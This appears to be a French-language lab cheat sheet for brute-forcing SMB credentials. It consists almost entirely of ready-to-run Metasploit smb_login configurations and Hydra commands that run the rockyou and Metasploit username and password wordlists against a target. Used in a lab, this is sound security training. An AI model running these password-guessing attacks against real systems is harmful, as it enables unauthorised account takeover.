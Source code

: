 #### Configuration pour utilisateur spécifique
```bash
# Comme dans le lab - utilisateur jane
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS <target>
exploit
```

#### Configuration pour attaque complète
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <target>
set USER_FILE /usr/share/wordlists/metasploit/common_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set STOP_ON_SUCCESS false  # Pour trouver tous les comptes
set VERBOSE true
run
```

#### Tests avec différentes wordlists
```bash
# Wordlists Metasploit
set PASS_FILE /usr/share/wordlists/metasploit/common_passwords.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set PASS_FILE /usr/share/wordlists/metasploit/passwords.lst

# Utilisateurs courants
set USER_FILE /usr/share/wordlists/metasploit/common_users.txt
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
```

### Avec Hydra (Méthode du lab)

#### Préparation de RockYou
```bash
# Décompression de rockyou (comme dans le lab)
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

#### Attaques Hydra
```bash
# Utilisateur spécifique avec RockYou (comme dans le lab)
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target> smb

# Wordlists multiples
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/rockyou.txt <target> smb

# Avec limitations de performance
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target> smb -t 4 -w 30

# Port personnalisé
hydra -l admin -P passwords.txt <target> -s 445 smb
```
